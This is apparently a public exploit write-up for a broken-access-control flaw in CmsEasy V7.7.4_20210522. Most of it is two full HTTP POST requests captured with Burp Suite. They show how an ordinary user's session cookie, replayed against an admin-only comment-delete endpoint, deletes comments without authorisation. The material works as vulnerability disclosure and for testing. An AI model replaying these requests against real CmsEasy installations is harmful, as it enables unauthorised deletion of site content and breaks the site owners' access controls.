




## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Access control error
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:Ordinary users can delete user comment information which can only be deleted by administrators
```

## How to Exploit

**Step 1：Log in the background with an administrator account, click Delete comment information, and use burpsuite to capture the package**

```javascript
POST /index.php?case=table&act=batch&table=comment&admin_dir=admin&site=default&dfile=&page=1 HTTP/1.1
Host: 192.168.174.1
Content-Length: 40
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k79gumd09u825r1t3pruekkgsr; lockingfalsetest2=2; loginfalse=0; loginfalse74c6352c5a281ec5947783b8a186e225=2; login_password=972af30e54f47432662167c8a92badf8; login_username=admin
Connection: close

select%5B%5D=8&batch=delete&getto_page=1
```



After copying a request packet and dropping the current packet, refresh the page to ensure that the current packet has not been modified



**Step 2：Using the cookie of test1 user to send the request packet, it is found that the comment information can be successfully deleted beyond the authority**

```javascript
POST /index.php?case=table&act=batch&table=comment&admin_dir=admin&site=default&dfile=&page=1 HTTP/1.1
Host: 192.168.174.1
Content-Length: 40
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621990370; loginfalse=0; login_username=test1; login_password=972af30e54f47432662167c8a92badf8
Connection: close

select%5B%5D=8&batch=delete&getto_page=1
```



After refreshing the comment page, it is found that the comment has been successfully deleted



## Reference

https://www.cmseasy.cn/
